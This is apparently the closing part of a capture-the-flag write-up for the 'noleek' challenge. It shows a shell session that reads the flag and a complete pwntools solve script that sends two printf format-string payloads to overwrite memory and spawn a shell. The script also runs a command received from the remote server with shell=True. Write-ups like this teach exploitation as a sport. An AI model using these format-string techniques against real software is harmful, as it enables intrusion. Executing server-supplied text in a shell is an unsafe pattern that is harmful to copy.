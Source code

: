 [<span style="color:#005DD0"><b>*</b></span>] Switching to interactive mode
<span style="color:#C01C28"><b>$</b></span> ls
<span style="color:#C01C28"><b>$</b></span> ls
<span style="color:#C01C28"><b>$</b></span> ls
noleek.
flag.txt
run
flag.txt
run
flag.txt
run
<span style="color:#C01C28"><b>$</b></span> cat flag.txt
actf{t0_l33k_0r_n0t_t0_l33k_th4t_1s_th3_qu3sti0n}
</code></pre>

Here's the solve script, which simply solves the POW and then sends the two format strings:

```python
#!/usr/bin/env python3

import subprocess

from pwn import *

exe = ELF("noleek_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-linux-x86-64.so.2")

context.binary = exe

if args.REMOTE:
    r = remote("challs.actf.co", 31400)
    r.recvuntil(b"work: ")
    cmd = r.recvlineS()
    r.sendafter(b"solution: ", subprocess.run(cmd, shell=True, capture_output=True).stdout)
else:
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r, "b *main+205\nb *main+248\nc")

r.sendlineafter(b"leek? ", b"%1$56c%*c%13$n")
r.sendlineafter(b"leek? ", b"%*12$c%678166c%42$n")

r.interactive()
```

While writing this write-up, I found out that the syntax which allows variable widths to be specified using positional arguments is mentioned in the [POSIX standard](https://pubs.opengroup.org/onlinepubs/9699919799/functions/printf.html) and the [Stack Overflow answer](https://stackoverflow.com/questions/7105890/set-variable-text-column-width-in-printf/18477417#18477417) right after the one that I read.
